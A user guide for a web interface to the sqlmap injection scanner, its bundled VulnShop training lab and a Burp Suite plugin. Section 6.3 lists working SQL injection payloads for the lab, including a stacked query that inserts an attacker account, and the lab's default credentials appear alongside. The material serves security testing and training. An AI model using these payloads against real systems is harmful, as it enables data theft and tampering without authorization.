

# SQLMap Web UI User Guide

<p align="center">
  
</p>

This document provides a comprehensive guide for using SQLMap Web UI, including the main application, VulnShop lab, and extension plugins.

## Table of Contents

- [1. System Overview](#1-system-overview)
- [2. Installation & Deployment](#2-installation--deployment)
- [3. Main Application](#3-main-application)
- [4. Scan Configuration Management](#4-scan-configuration-management)
- [5. Header Rules Configuration](#5-header-rules-configuration)
- [6. VulnShop Lab Usage](#6-vulnshop-lab-usage)
- [7. Extension Plugins](#7-extension-plugins)
- [8. Advanced Features](#8-advanced-features)
- [9. FAQ](#9-faq)

---

## 1. System Overview

SQLMap Web UI is a complete SQL injection testing platform consisting of three main components:

| Component | Description | Port |
|-----------|-------------|------|
| Web Application | SQL injection scanning task management interface | 8775 (backend) / 5173 (frontend dev) |
| VulnShop Lab | Built-in vulnerability testing environment | 9527 |
| Extension Plugin | Burp Suite plugin | - |
| System Logs | Log viewer | Built-in |

### System Requirements

- **Operating System**: Windows / Linux / macOS
- **Python**: 3.10+
- **Node.js**: 20+ (frontend development)
- **Java**: 11+ (Burp Suite Legacy API) or 17+ (Montoya API)
- **Browser**: Chrome (recommended)
- **Package Managers**: uv (Python), pnpm (Node.js)

---

## 2. Installation & Deployment

### 2.1 Backend Service

#### Method 1: Using Startup Script (Recommended)

The startup script automatically creates a virtual environment, installs dependencies, and starts the service.

**Windows:**
```batch
cd src\backEnd
start.bat
```

**Linux/macOS:**
```bash
cd src/backEnd
chmod +x start.sh
./start.sh
```

#### Method 2: Manual Startup

```bash
# Enter backend directory
cd src/backEnd

# Install dependencies (using uv package manager)
uv sync --extra thirdparty

# Start service
uv run python main.py
```

#### Startup Configuration

The startup script supports configuration via `startup.conf`:

| Configuration | Description | Default |
|---------------|-------------|---------|
| NETWORK_MODE | Network mode (online/intranet/offline) | online |
| PYPI_MIRROR | Public mirror (tsinghua/aliyun/ustc, etc.) | tsinghua |
| PRIVATE_MIRROR_URL | Private mirror URL | - |
| SKIP_DEPS_CHECK | Skip dependency check | false |
| HOST | Service bind address | 127.0.0.1 |
| PORT | Service port | 8775 |

#### Intranet/Offline Deployment

**Intranet with private mirror:**
```ini
# startup.conf
NETWORK_MODE=intranet
PRIVATE_MIRROR_URL=http://nexus.company.com/repository/pypi/simple/
```

**Fully offline environment:**
1. Run `prepare_offline.bat` (or `.sh`) in a networked environment to prepare offline packages
2. Copy the backEnd directory to the offline machine
3. Set `NETWORK_MODE=offline` and run the startup script

Service URL after startup: http://localhost:8775

### 2.2 Frontend Application

```bash
# Enter frontend directory
cd src/frontEnd

# Install dependencies
pnpm install

# Development mode
pnpm run dev

# Build production version
pnpm run build
```

Development server: http://localhost:5173

### 2.3 VulnShop Lab

```bash
# Enter lab directory
cd src/vulnTestServer

# Install dependencies
pip install flask

# Start server
python server.py
```

Lab URL: http://127.0.0.1:9527

---

## 3. Main Application

### 3.1 Dashboard

The homepage displays task statistics:
- **Task Status Statistics**: Total tasks, running, waiting, completed, failed, stopped, terminated
- **Injection Results Statistics**: Injectable tasks, non-injectable tasks
- **Quick Access**: Click statistic cards to quickly jump to filtered task lists

### 3.2 Creating Scan Tasks

1. Go to the task list page
2. Click "New Task" button
3. Fill in task information:
   - **Target URL**: The URL to be tested
   - **HTTP Request**: Paste complete HTTP request (supports cURL/PowerShell/fetch/raw HTTP)
   - **Scan Parameters**: Level, Risk, DBMS, etc.
4. Click "Start Scan"

#### HTTP Request Format Support

The system supports automatic parsing of the following HTTP request formats:

| Format | Description | Example |
|--------|-------------|---------|
| cURL (Bash) | Linux/Mac terminal request | `curl -X POST 'http://...' -H 'Content-Type: ...'` |
| cURL (CMD) | Windows command line | `curl -X POST "http://..." -H "Content-Type: ..."` |
| PowerShell | Invoke-WebRequest | `Invoke-WebRequest -Uri "http://..." -Method POST` |
| fetch | JavaScript fetch API | `fetch("http://...", { method: "POST", ... })` |
| Raw HTTP | Standard HTTP message | `POST /path HTTP/1.1\nHost: example.com\n...` |

The system automatically detects input format and converts it to standard HTTP message.

### 3.3 Task List Features

#### Filtering
- **URL Keyword Search**: Supports fuzzy matching for target URLs
- **Message Keyword Search**: Search Headers and Body content
- **Status Filter**: Filter by task status (waiting/running/completed/failed/stopped/terminated)
- **Date Range Filter**: Filter by creation time and execution time range
- **Injection Status Filter**: Injectable / Non-injectable / Unknown

#### Sorting
- Click column headers to trigger sorting
- Supports ascending/descending/default order
- Sortable fields: Task ID, Status, Creation Time

#### Pagination
- Supports paginated browsing of history configurations
- Adjustable items per page
- Quick jump to specific page

#### Batch Operations
- **Multi-select**: Checkbox in first column, supports single and select-all
- **Batch Stop**: Stop selected running tasks
- **Batch Delete**: Delete selected tasks (running tasks are automatically skipped)
- **Delete All**: Clear all tasks (requires confirmation)

#### Summary Statistics Row
Table footer displays real-time statistics:
- Total tasks
- Injectable tasks
- Status distribution

### 3.4 Viewing Task Results

On the task details page, you can view:

- **Basic Info**: Task status, creation time, target address, source IP
- **HTTP Request**: Raw request content (method, URL, Headers, Body)
- **Scan Configuration**: SQLMap parameter configuration (Level, Risk, Technique, etc.)
- **Scan Results**: Discovered injection points and payload details
- **Real-time Logs**: Task execution logs with refresh support

### 3.5 Keyboard Shortcuts

| Shortcut | Function | Scope |
|----------|----------|-------|
| `Alt` + `1` | Jump to Home | Global |
| `Alt` + `2` | Jump to Tasks | Global |
| `Alt` + `3` | Jump to Add Task | Global |
| `Alt` + `4` | Jump to Config | Global |
| `Ctrl` + `F` | Search in editor | Code editor |

### 3.6 Real-time Notifications

The system uses WebSocket real-time notification mechanism:
- Backend actively pushes task status changes
- Frontend automatically refreshes when new tasks are created
- Combined with smart polling strategy to reduce unnecessary requests

### 3.7 Operation Confirmation

To prevent accidental operations, the following actions require confirmation:
- Delete single task
- Stop single task
- Batch delete tasks
- Batch stop tasks
- Delete all tasks

### 3.8 Smart Polling

The system adopts smart polling strategy:
- Automatically starts timed refresh when there are running tasks
- Automatically stops polling when no tasks are running
- Pauses polling when page is hidden, resumes when visible
- Adjustable refresh interval in configuration page

### 3.9 System Log Viewer

**New in v1.8.40**

The system log viewer helps troubleshoot issues and monitor system status:

#### Log Types
- **Application Logs**: Application runtime logs, including scan task execution records
- **Access Logs**: HTTP request access records
- **Error Logs**: System errors and exception records

#### Features
- **Type Switching**: Quick switching between three log types
- **Line Count Setting**: Customizable display lines (50/100/200/500 lines)
- **Real-time Refresh**: View latest log content
- **Dark Theme**: Adapts to dark mode

#### Usage
1. Find "System Log Viewer" entry in the configuration page
2. Select the log type to view
3. Set display line count
4. Click refresh to get latest logs

---

## 4. Scan Configuration Management

### 4.1 Overview

Scan configuration management provides three configuration types:

| Configuration Type | Description | Use Case |
|-------------------|-------------|----------|
| Default Config | Global default scan parameters | Most scan tasks use same parameters |
| Preset Configs | Saved commonly used configurations | Configurations for specific scenarios |
| History Configs | Configurations used in past scans | Reuse previous scan configurations |

### 4.2 Default Configuration

1. Go to "Config" → "Scan Config Management" → "Default Config" Tab
2. Set global default parameters:
   - Level: Detection level (1-5)
   - Risk: Risk level (1-3)
   - DBMS: Database type
   - Technique: Injection technique
   - Other SQLMap parameters
3. Click "Save"

### 4.3 Preset Configurations

#### Creating Preset Configurations

1. Go to "Preset Configs" Tab
2. Click "Add Config" or "Guided Add"
3. Fill in configuration information:
   - Config name: e.g., "MySQL Deep Scan"
   - Config description (optional)
   - SQLMap parameters
4. Click "Save"

#### Guided Editor

The guided editor provides visual interface for configuring SQLMap parameters:

1. Click "Guided Add" or "Guided Edit"
2. Select parameters through dropdown menus and checkboxes in the dialog
3. Real-time preview of generated command line parameters
4. Click "Save"

### 4.4 History Configurations

1. Go to "History Configs" Tab
2. View configurations used in past scans
3. Click "Use" to reuse configuration
4. Click "Save as Preset" to save to preset configurations

#### History Config Table Features

**New in v1.8.38+**

- **Sorting**: Supports sorting by ID, command line parameters, last used time, usage count
- **Pagination**: Supports paginated browsing with adjustable items per page
- **ID Display**: Config cards display ID for easy identification
- **Auto Refresh**: History config table auto-refreshes after Burp plugin creates tasks

---

## 5. Header Rules Configuration

### 5.1 Overview

The configuration page contains 3 Tab pages:

1. **System Config** - Auto-refresh interval settings
2. **Header Rules Management** - Persistent request header rules configuration
3. **Session Header Management** - Temporary session-level request header configuration

### 5.2 Persistent Rules Management

#### Creating Global Rules (Most Common)

**Scenario**: Add unified User-Agent for all scan tasks

**Steps**:
1. Click into "Header Rules Management" Tab
2. Click "Add Rule" button
3. Fill in form:
   - Rule name: `Global User-Agent`
   - Header name: `User-Agent`
   - Header value: `Mozilla/5.0 SecurityScanner/1.0`
   - Replace strategy: `Full Replace`
   - Priority: `50`
   - ✅ Enable rule
   - ❌ Do not check "Configure Scope" (global effect)
4. Click "Save"

✅ **Result**: All scan tasks will use this User-Agent

#### Creating Scoped Rules

**Scenario**: Only add auth token for specific environment APIs

**Steps**:
1. Click "Add Rule"
2. Fill in form:
   - Rule name: `Production API Auth`
   - Header name: `Authorization`
   - Header value: `Bearer eyJhbGc...`
   - Priority: `80` (high priority)
   - ✅ Enable rule
   - ✅ Check "Configure Scope"
3. Configure scope:
   - Protocol match: `https`
   - Hostname match: `api.production.com`
   - Path match: `/v1/*`
   - ❌ Do not use regular expressions
4. Click "Save"

✅ **Result**:
- ✅ Only adds auth header for `https://api.production.com/v1/*` requests
- ❌ Other URLs are not affected

#### Rule Operations

- **Edit**: Click edit button to modify rule
- **Enable/Disable**: Click eye icon to toggle status
- **Delete**: Click delete button to remove rule

### 5.3 Scope Configuration Details

#### Scope Fields

| Field | Description | Example |
|-------|-------------|---------|
| Protocol Match | Match http or https | `https` or `http,https` |
| Hostname Match | Match domain (supports wildcard *) | `api.example.com` or `*.example.com` |
| IP Match | Match IP address (supports wildcard *) | `192.168.1.100` or `192.168.*` |
| Port Match | Match port numbers (supports multiple) | `443` or `80,443,8080` |
| Path Match | Match URL path (supports wildcard *) | `/api/*` or `/v1/users` |
| Use Regex | Whether to use regular expression matching | ☐ Keyword match ☑ Regex match |

#### Matching Logic

- **No scope configured**: Global effect, matches all URLs
- **Scope configured**: All configured items must match to take effect (AND logic)
- **Field left empty**: No restriction on this dimension (equivalent to wildcard)

#### Scope Examples

**Example 1: Match HTTPS only**
```json
{
  "protocol_pattern": "https"
}
```
✅ Matches: `https://any-domain/any-path`  
❌ Not matches: `http://...`

**Example 2: Match all subdomains of example.com**
```json
{
  "host_pattern": "*.example.com"
}
```
✅ Matches: `api.example.com`, `www.example.com`  
❌ Not matches: `example.com` (main domain)

**Example 3: Match specific API path**
```json
{
  "protocol_pattern": "https",
  "host_pattern": "api.production.com",
  "path_pattern": "/v1/*"
}
```
✅ Matches: `https://api.production.com/v1/users`  
❌ Not matches: `http://api.production.com/v1/users` (protocol mismatch)

### 5.4 Session Header Management

#### Batch Adding Temporary Headers

**Scenario**: Add multiple temporary headers for current test session

**Steps**:
1. Click into "Session Header Management" Tab
2. Click "Add Header" button
3. Enter multiple lines of headers in the text box:
   ```
   Authorization: Bearer temp-token-123
   X-Request-ID: test-request-001
   X-Custom-Header: custom-value
   ```
4. Set parameters:
   - Priority: `50`
   - TTL: `3600` seconds (1 hour)
5. Click "Add"

✅ **Result**: These headers will be effective for all requests in the next hour

#### Clear Session Headers

Click "Clear All" button, confirm to immediately clear all session headers

### 5.5 Priority Setting Recommendations

| Priority Range | Recommended Use | Tag Color |
|----------------|-----------------|-----------|
| 80-100 | Critical auth/authorization headers | 🔴 Red |
| 50-79 | Important business headers | 🟡 Yellow |
| 0-49 | General headers | 🔵 Blue |

---

## 6. VulnShop Lab Usage

### 6.1 Lab Introduction

VulnShop is an e-commerce platform simulation SQL injection lab, designed for:
- Learning various SQL injection techniques
- Testing security tools like SQLMap
- Security training and CTF practice

### 6.2 Test Accounts

| Username | Password | Role |
|----------|----------|------|
| admin | admin123 | Administrator |
| test | test | Regular User |
| alice | alice123 | Regular User |

### 6.3 Vulnerability Types

#### Error-based Injection
- **Endpoint**: POST /api/user/login
- **Parameters**: username, password
- **Example**:
```
username: admin' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
password: x
```

#### Union-based Injection
- **Endpoint**: GET /api/user/profile
- **Parameters**: id
- **Example**:
```
GET /api/user/profile?id=1 UNION SELECT 1,flag,description,4,5,6 FROM secrets--
```

#### Boolean-blind Injection
- **Endpoint**: GET /api/products/search
- **Parameters**: keyword
- **Example**:
```
GET /api/products/search?keyword=test' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a'--
```

#### Time-based Injection
- **Endpoint**: GET /api/products/detail
- **Parameters**: id
- **Example**:
```
GET /api/products/detail?id=1 AND (SELECT CASE WHEN (1=1) THEN randomblob(100000000) ELSE 1 END)
```

#### Stacked Queries Injection
- **Endpoint**: GET /api/orders/query
- **Parameters**: order_no, user_id
- **Example**:
```
GET /api/orders/query?order_no=ORD001'; INSERT INTO users(username,password,email) VALUES('hacker','pwned','h@h.com');--
```

#### Second-order Injection
- **Endpoint**: POST /api/user/register
- **Parameters**: username, password, email
- **Description**: Register with malicious SQL username, triggered elsewhere

### 6.4 Difficulty Levels

| Level | WAF Protection | Bypass Method |
|-------|----------------|---------------|
| Easy | No protection | Direct injection |
| Medium | Simple filtering | Case mixing, URL encoding |
| Hard | Strict filtering | Advanced bypass techniques |

Switch difficulty: Select difficulty level in "System Config" page

### 6.5 Theme Toggle

The lab supports light and dark themes:
- Click theme toggle button (☀️/🌙) on the right side of navigation bar
- Theme selection is automatically saved

### 6.6 Database Reset

To restore initial data:
1. Web interface: "System Config" → "Reset Database"
2. Command line: `python database.py`

---

## 7. Extension Plugins

### 7.1 Burp Suite Plugin

#### Installation Steps

1. Build the plugin:
```bash
cd src/burpEx/montoya-api  # For Burp 2023.1+
# or
cd src/burpEx/legacy-api   # For older Burp versions

mvn clean package -DskipTests
```

2. Load in Burp Suite:
   - Go to Extender → Extensions
   - Click Add button
   - Select the generated JAR file

#### Usage

1. **Configure Server**:
   - In plugin's "Server Config" tab
   - Set backend URL: http://localhost:8775
   - Click "Test Connection" to verify

2. **Send Requests**:
   - Intercept or view requests in Burp
   - Right-click and select "Send to SQLMap WebUI"
   - Or select "Send to SQLMap WebUI (Select Config)..." for custom parameters

3. **Configuration Management**:
   - "Default Config": Set default scan parameters
   - "Preset Configs": Save commonly used configuration combinations

4. **Activity Log**:
   - View send history and results

#### New Features in v1.8.44+

- **Command Execution Configuration**: Support direct SQLMap scan execution in terminal without backend server
- **Terminal Title Rules**: Support custom terminal window title extraction rules for easy identification of multiple scan windows
- **Command Preview**: Real-time preview of generated SQLMap commands
- **Configuration Import/Export**: Support backup and sharing of configurations

#### New Features in v1.8.38+

- **Auto-save to History**: Automatically saves to history configs after creating tasks
- **Request Deduplication**: Automatically detects and skips duplicate requests
- **Binary Content Detection**: Detects binary content and warns
- **Chinese Encoding Handling**: Correctly handles Chinese characters

#### Command Execution Configuration

**v1.8.44+ Feature**

Command execution configuration allows direct SQLMap scan execution in local terminal:

1. Go to "Command Execution Configuration" tab
2. Configure the following parameters:
   - **Python Path**: Python interpreter path (optional, uses system default if empty)
   - **SQLMap Path**: Full path to sqlmap.py script (required)
   - **Terminal Type**: Auto-detect or manual selection (CMD/PowerShell/Terminal, etc.)
   - **Keep Terminal Open**: Whether to keep terminal window after scan completes
3. Configure title rules (optional):
   - Add custom rules to extract terminal window title from requests
   - Support extraction from Host, URL path, custom regex, etc.
   - Match in priority order, first matched rule takes effect
4. Click "Save Settings"

**Usage**:
1. Intercept or view requests in Burp
2. Right-click and select "Execute SQLMap Scan"
3. System automatically opens terminal and executes SQLMap command
4. HTTP request is saved as temporary file, passed using `-r` parameter

#### Scan Parameters

| Parameter | Description | Default |
|-----------|-------------|---------|
| Level | Detection level (1-5) | 1 |
| Risk | Risk level (1-3) | 1 |
| DBMS | Database type | Auto-detect |
| Technique | Injection technique | BEUSTQ (All) |

---

## 8. Advanced Features

### 8.1 Batch HTTP Request Import

Supports batch import of HTTP requests:
1. Prepare request file (separate each request with blank line)
2. Use import function to upload file
3. Batch create scan tasks

### 8.2 Custom SQLMap Parameters

All SQLMap parameters can be configured during task creation:
- Detection params: level, risk, technique
- Target params: dbms, os, tamper
- Injection params: prefix, suffix, string
- Output params: dump, dump-all, passwords

#### Command Line Preview

**Improved in v1.8.33+**: Command line preview component adopts GitHub Dark theme style for better readability.

### 8.3 Guided Parameter Editor

**v1.8.33+ Feature**

AddTask page adopts modular component design:
- **HTTP Request Editor**: Independent code editor component with syntax highlighting
- **Parameter Config Panel**: Guided parameter selection interface
- **Command Line Preview**: Real-time preview of generated SQLMap command
- **Scan Config Selection**: Quick selection of default/preset/history configurations

### 8.4 Batch Header Rules Import

The config page supports batch import of header rules from text:
1. Go to "Header Rules Management" Tab
2. Click "Text Import" button
3. Enter multi-line format headers
4. Set priority and replace strategy
5. Confirm batch creation

### 8.5 Auto-refresh Interval Configuration

**Improved in v1.8.33+**: Config page auto-refresh interval slider adds tick marks for more intuitive selection experience.

### 8.6 Full Support for 215 SQLMap Parameters

This project supports **215 SQLMap parameters** (except `-r`), fully compatible with SQLMap 1.9.11.3+:

| Category | Count | Description |
|----------|-------|-------------|
| Target | 8 | Target definition (URL, log, bulk file, etc.) |
| Request | 51 | HTTP request configuration (auth, proxy, CSRF, etc.) |
| Optimization | 5 | Performance optimization (threads, connections, etc.) |
| Injection | 17 | Injection test configuration (test params, techniques, etc.) |
| Detection | 8 | Detection configuration (level, risk, match rules, etc.) |
| Techniques | 9 | Injection technique configuration (UNION, DNS exfiltration, etc.) |
| Enumeration | 36 | Data enumeration (tables, columns, users, etc.) |
| OS Takeover | 8 | OS takeover (command execution, shell, etc.) |

---

## 9. FAQ

### Q: Backend service fails to start?
A: Check Python version (requires 3.10+), ensure dependencies are fully installed. Use `uv sync --extra thirdparty` to install dependencies.

### Q: Frontend cannot connect to backend?
A: Check CORS configuration, ensure backend service is running. Backend listens on port 8775 by default.

### Q: VulnShop lab cannot be accessed?
A: Ensure port 9527 is not occupied, use 127.0.0.1 instead of localhost.

### Q: Burp Suite plugin cannot send requests?
A: Check backend server address configuration, ensure network connectivity. Use "Test Connection" function to verify.

### Q: Scan task stays in Pending status?
A: Check if SQLMap is properly integrated, view backend logs for detailed information.

### Q: Header rules not taking effect?
A: Check if rule is enabled, whether scope configuration correctly matches target URL.

### Q: Session headers expired?
A: Session headers have TTL limit, need to re-add after expiration. Can increase TTL or use persistent rules.

---

## Technical Support

- **GitHub Issues**: Submit questions and suggestions
- **Documentation**: View detailed documentation in doc directory

---

> ⚠️ **Security Notice**: This tool is for authorized security testing only. Do not use for illegal purposes!
